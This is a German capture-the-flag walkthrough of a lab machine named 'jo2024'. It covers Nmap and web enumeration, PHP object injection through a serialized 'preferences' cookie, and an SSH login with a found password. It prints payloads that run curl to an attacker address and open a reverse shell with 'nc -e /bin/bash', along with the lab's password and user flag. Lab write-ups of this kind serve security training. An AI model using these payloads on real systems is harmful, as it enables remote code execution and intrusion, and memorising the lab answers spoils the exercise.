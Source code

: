 2.  **Port-Scan (Nmap):**
    *   Ein umfassender `nmap`-Scan (`nmap -sC -sS -sV -A -T5 192.168.2.107 -p- [...]`) offenbarte:
        *   **Port 22 (SSH):** OpenSSH 9.2p1 Debian
        *   **Port 80 (HTTP):** Apache httpd 2.4.61 (Debian), Seitentitel "Paris 2024 Olympic Games".

---

## Phase 2: Web Enumeration & Initial Access (PHP Object Injection)

1.  **Web-Enumeration:**
    *   `nikto` auf Port 80 fand fehlende Sicherheitsheader und ein Verzeichnis `/img/` mit aktiviertem Directory Indexing.
    *   `gobuster dir` fand `/index.php`, `/img/` und `preferences.php`.
    *   `wfuzz` für Subdomain-Enumeration fand `pictures.jo2024.hmv`. Diese Subdomain zeigte ein Formular zum Herunterladen von Bildern, wurde aber nicht weiter für den Initial Access genutzt.

2.  **Identifizierung der PHP Object Injection (POI):**
    *   Auf `http://jo2024.hmv/preferences.php` wurde ein Cookie namens `preferences` gefunden.
    *   Der Wert des Cookies war Base64-kodiert: `TzoxNToiVXNlclByZWZlcmVuY2VzIjoyntzjg6Imxhbmd1YWdlIjtzjI6ImZyIjtzjE1iJiYWNrZ3JvdW5kQ29sb3Ii3M6NDoiI2RkZCI7fQ%3D%3D`
    *   Dekodiert ergab dies einen serialisierten PHP-String: `O:15:"UserPreferences":2:{s:8:"language";s:2:"fr";s:15:"backgroundColor";s:4:"#ddd";}`.
    *   Durch Modifikation des `language`-Feldes (z.B. zu `danke`) und erneutes Kodieren/Setzen des Cookies konnte bestätigt werden, dass die Anwendung den serialisierten String verarbeitet.

3.  **Ausnutzung der POI für RCE:**
    *   Ein Payload wurde erstellt, um mittels `curl` eine SSRF-Anfrage zu einem Python-HTTP-Server des Angreifers zu senden und so die Codeausführung zu bestätigen. Serialisierter Payload (Ausschnitt): `s:8:"language";s:26:"curl http://[Angreifer-IP]:8000";`
    *   Anschließend wurde ein Payload für eine Reverse Shell erstellt. Serialisierter Payload (Ausschnitt): `s:8:"language";s:34:"nc -e /bin/bash [Angreifer-IP] 8000";`
    *   Dieser Base64-kodierte Payload wurde in den `preferences`-Cookie eingefügt.
    *   Ein `nc -lvnp 8000` auf dem Angreifer-System empfing die Verbindung. Initialer Zugriff als `www-data` wurde erlangt und die Shell stabilisiert.

---

## Phase 3: Privilege Escalation (www-data -> vanity -> root)

### www-data zu vanity (Passwortfund)

1.  **Enumeration als `www-data`:**
    *   Das Home-Verzeichnis `/home/vanity/` wurde identifiziert.
    *   Zugriff auf `user.txt`, `creds/`, `.ssh/` im Home-Verzeichnis von `vanity` war für `www-data` nicht direkt möglich.
    *   Im Originalbericht wurde das Passwort `xd0oITR93KIQDbiD` gefunden (Fundort nicht explizit im Log, vermutlich in einer Konfigurationsdatei/Skript im Webroot).

2.  **SSH-Login als `vanity`:**
    *   Mit dem Passwort `xd0oITR93KIQDbiD` wurde ein SSH-Login als `vanity` durchgeführt:
        ```bash
        ssh vanity@192.168.2.107
        # Passwort: xd0oITR93KIQDbiD
        ```
    *   Zugriff als `vanity` wurde erlangt.
    *   Die User-Flag `e2cb9d6e0899cde91130ca4b37139021` wurde in `/home/vanity/user.txt` gefunden.
